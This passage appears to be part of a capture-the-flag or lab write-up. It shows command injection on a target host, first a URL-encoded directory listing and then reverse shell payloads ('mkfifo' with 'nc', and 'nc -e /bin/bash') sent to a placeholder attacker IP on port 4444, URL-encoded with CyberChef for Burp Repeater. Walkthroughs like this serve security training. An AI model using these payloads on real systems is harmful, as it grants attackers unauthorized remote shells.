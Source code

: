<p>

- <code>ls -lah /home/athena</code> = <code>ls%20-lah%20/home/athena</code></p>

<img width="898" height="272" alt="image" src="https://github.com/user-attachments/assets/4fa0d50f-9086-4b94-a7dd-a709252b3462" />


<br>

<h3>Reverse Shell Generator</h3>

<img width="1280" height="468" alt="image" src="https://github.com/user-attachments/assets/fa910fd1-821b-46a2-8842-96de6f5e7ccb" />

<br>

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc xx.xxx.xxx.xxx 4444 >/tmp/f
```

<br>

<h3>CyberChef</h3>

<img width="1317" height="201" alt="image" src="https://github.com/user-attachments/assets/c6a03ef6-6aa0-404a-9600-6f5d3274fe67" />

<br>

```bash
rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/bash%20-i%202%3E&1%7Cnc%20xx.xxx.xxx.xxx%204444%20%3E/tmp/f
```

<br>

<h3>Burp Repeater</h3>

<img width="866" height="275" alt="image" src="https://github.com/user-attachments/assets/a0176964-5c47-4b0f-8876-44785dd50f41" />

<br>

<h3>CyberChef</h3>

<img width="1310" height="196" alt="image" src="https://github.com/user-attachments/assets/45a8affe-fe7e-43f2-a9e2-585960133a15" />

```bash
nc xx.xxx.xxx.xxx 4444 -e /bin/bash
```

```bash
nc%20xx.xxx.xxx.xxx%204444%20-e%20/bin/bash
```

<br>
<h3>Burp Repeater</h3>

<img width="419" height="269" alt="image" src="https://github.com/user-attachments/assets/f64afc8f-b611-44df-b1b8-06537a52f212" />

<br>
<br>
